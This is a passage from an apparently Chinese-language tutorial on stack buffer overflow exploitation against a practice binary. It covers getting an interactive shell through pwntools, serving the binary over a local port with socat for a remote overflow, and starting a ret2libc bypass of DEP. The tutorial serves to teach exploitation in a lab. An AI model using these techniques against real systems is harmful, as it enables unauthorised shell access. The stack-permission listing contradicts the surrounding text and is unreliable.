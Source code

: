 ```

p.interactive()  #开启交互shell 
```

执行exp：

```
#!bash
$ python exp1.py 
[+] Started program './level1'
[*] Switching to interactive mode
$ whoami
mzheng 
```

接下来我们把这个目标程序作为一个服务绑定到服务器的某个端口上，这里我们可以使用socat这个工具来完成，命令如下：

```
#!bash
socat TCP4-LISTEN:10001,fork EXEC:./level1 
```

随后这个程序的IO就被重定向到10001这个端口上了，并且可以使用 nc 127.0.0.1 10001来访问我们的目标程序服务了。

因为现在目标程序是跑在socat的环境中，exp脚本除了要把p = process('./level1')换成p = remote('127.0.0.1',10001) 之外，ret的地址还会发生改变。解决方法还是采用生成core dump的方案，然后用gdb调试core文件获取返回地址。然后我们就可以使用exp进行远程溢出啦！

```
#!bash
python exp1.py 
[+] Opening connection to 127.0.0.1 on port 10001: Done
[*] Switching to interactive mode
$ id
uid=1000(mzheng) gid=1000(mzheng) groups=1000(mzheng),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare) 
```

## 0x02 Ret2libc – Bypass DEP 通过ret2libc绕过DEP防护

现在我们把DEP打开，依然关闭stack protector和ASLR。编译方法如下：

```
#!bash
gcc -fno-stack-protector -o level2 level2.c 
```

这时候我们如果使用level1的exp来进行测试的话，系统会拒绝执行我们的shellcode。如果你通过 `sudo cat /proc/[pid]/maps` 查看，你会发现level1的stack是rwx的，但是level2的stack却是rw的。

```
level1:   bffdf000-c0000000 rw-p 00000000 00:00 0          [stack]
level2:   bffdf000-c0000000 rwxp 00000000 00:00 0          [stack] 
```

那么如何执行shellcode呢？我们知道level2调用了libc.so，并且libc.so里保存了大量可利用的函数，我们如果可以让程序执行 `system(“/bin/sh”)` 的话，也可以获取到shell。既然思路有了，那么接下来的问题就是如何得到system()这个函数的地址以及”/bin/sh”这个字符串的地址。

如果关掉了ASLR的话，system()函数在内存中的地址是不会变化的，并且libc.so中也包含”/bin/sh”这个字符串，并且这个字符串的地址也是固定的。那么接下来我们就来找一下这个函数的地址。这时候我们可以使用gdb进行调试。然后通过print和find命令来查找system和”/bin/sh”字符串的地址。
